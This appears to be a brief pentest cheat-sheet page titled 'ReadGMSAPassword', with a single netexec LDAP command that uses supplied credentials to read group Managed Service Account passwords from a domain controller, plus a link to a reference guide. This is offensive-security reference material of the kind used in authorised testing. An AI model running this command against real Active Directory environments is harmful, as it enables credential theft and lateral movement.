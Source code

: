 # ReadGMSAPassword





```
netexec ldap DC_IP -u USER -p 'PASS' --gmsa
```

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

